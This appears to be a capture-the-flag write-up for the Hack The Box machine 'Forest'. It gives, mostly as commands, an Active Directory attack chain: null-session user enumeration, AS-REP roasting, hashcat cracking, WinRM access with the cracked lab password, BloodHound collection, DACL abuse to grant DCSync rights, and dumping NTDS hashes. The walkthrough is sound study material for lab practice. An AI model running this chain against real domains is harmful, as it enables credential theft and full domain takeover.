


# Forest

## NMAP

* Rustscan Results

```console
PORT      STATE SERVICE          REASON
53/tcp    open  domain           syn-ack ttl 127
88/tcp    open  kerberos-sec     syn-ack ttl 127
135/tcp   open  msrpc            syn-ack ttl 127
139/tcp   open  netbios-ssn      syn-ack ttl 127
389/tcp   open  ldap             syn-ack ttl 127
445/tcp   open  microsoft-ds     syn-ack ttl 127
464/tcp   open  kpasswd5         syn-ack ttl 127
593/tcp   open  http-rpc-epmap   syn-ack ttl 127
636/tcp   open  ldapssl          syn-ack ttl 127
3268/tcp  open  globalcatLDAP    syn-ack ttl 127
3269/tcp  open  globalcatLDAPssl syn-ack ttl 127
5985/tcp  open  wsman            syn-ack ttl 127
9389/tcp  open  adws             syn-ack ttl 127
47001/tcp open  winrm            syn-ack ttl 127
49664/tcp open  unknown          syn-ack ttl 127
49665/tcp open  unknown          syn-ack ttl 127
49666/tcp open  unknown          syn-ack ttl 127
49667/tcp open  unknown          syn-ack ttl 127
49671/tcp open  unknown          syn-ack ttl 127
49676/tcp open  unknown          syn-ack ttl 127
49677/tcp open  unknown          syn-ack ttl 127
49681/tcp open  unknown          syn-ack ttl 127
49698/tcp open  unknown          syn-ack ttl 127
```

## SMB

* Either `enum4linux-ng` or `nxc` can fetch the users via the null session on the smb.

```bash
nxc smb $IP -u '' -p '' --users
```

* we can check if any of these users are `AS-REP` roastable

```bash
impacket-GetNPUsers -dc-ip $IP htb.local/ -no-pass -usersfile users.txt
```


## Hash Cracking

* cracking the `AS-REP` hash via hashcat

```bash
hashcat -a 0 -m 18200 svc_alfresco_hash /usr/share/wordlists/rockyou.txt
```


## Evil-Winrm

* We can check if the user has winrm access via `nxc` again

```bash
nxc winrm htb.local -u 'svc-alfresco' -p 's3rvice'
```

* we can login as `svc-alfresco` and read the `User` flag


## Bloodhound

* we can enumerate the domain via `bloodhound`

```bash
bloodhound-python -u 'svc-alfresco' -p 's3rvice' -d 'htb.local' -dc 'forest.htb.local' -ns $IP  -c all --zip
```


## DACL Abuse

* Bloodhound suggests that we can leverage `svc-alfresco` as the owner of `EXCHANGE WINDOWS PERMISSIONS`  

```bash
bloodyAD --host $IP -d forest.local -u svc-alfresco -p s3rvice add groupMember 'EXCHANGE WINDOWS PERMISSIONS' svc-alfresco

bloodyAD --host $IP -d forest.local -u svc-alfresco -p s3rvice set owner 'EXCHANGE WINDOWS PERMISSIONS' svc-alfresco
```

## DCSync

* Upon updating the permissions and roles for the user `svc-alfresco` we can `DCSync` to dump the hashes on the DC

```bash
bloodyAD --host $IP -d forest.local -u svc-alfresco -p s3rvice add dcsync svc-alfresco

nxc smb $IP -u 'svc-alfresco' -p 's3rvice' --ntds -user Administrator
```




